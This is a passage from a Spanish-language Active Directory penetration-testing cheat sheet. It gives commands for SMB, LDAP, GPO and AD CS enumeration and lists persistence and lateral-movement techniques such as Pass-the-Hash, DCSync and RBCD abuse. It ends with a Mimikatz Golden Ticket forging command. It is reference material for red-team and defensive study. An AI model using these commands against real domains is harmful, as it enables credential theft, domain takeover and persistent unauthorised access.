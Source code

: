 #### EnumeraciÃ³n de Shares SMB:
```bash
smbclient -L //<DC-IP> -N
crackmapexec smb <target> --shares -u usuario -p contraseÃ±a
```

#### EnumeraciÃ³n LDAP:
```bash
ldapsearch -x -h <DC-IP> -b "dc=domain,dc=local"
```

#### Bloodhound Ingestors:
```bash
SharpHound.exe -c all
Invoke-BloodHound -CollectionMethod All
```

#### EnumeraciÃ³n de GPOs:
```powershell
Get-GPO -All
```

#### EnumeraciÃ³n de Certificados (AD CS):
```bash
certipy find -u usuario -p 'contraseÃ±a' -target <DC-IP> -dc-ip <DC-IP> -d dominio.local
```

---

<a name="persistencia"></a>
## 4. Persistence y Movimiento Lateral

### TÃ©cnicas de Persistencia
- **Golden Ticket y Silver Ticket** (Mimikatz)
- **Pass-the-Hash / Pass-the-Ticket** (Impacket, Mimikatz, CrackMapExec)
- **Overpass-the-Hash (Pass-the-Key)**
- **DC Sync / DC Shadow**
- **Abuso de AdminSDHolder**
- **Backdoors en GPOs**
- **Abuso de delegaciÃ³n de servicios (RBCD, S4U2Self, S4U2Proxy)**
- **Shadow Credentials y certificados mal configurados**
- **Persistencia en Scheduled Tasks, Service Accounts, WMI y Run Keys**

#### Movimiento Lateral
- **PsExec** (Impacket, Sysinternals)
- **WinRM** (evil-winrm)
- **WMI, DCOM, RDP**
- **Abuso de sesiones RDP activas**
- **Abuso de permisos en shares SMB**
- **Abuso de ACLs y permisos delegados**

#### Ejemplo: Golden Ticket
```powershell
mimikatz # kerberos::golden /user:usuario /domain:dominio.local /sid:S-1-5-21-xxxx /krbtgt:HASH /id:500
```
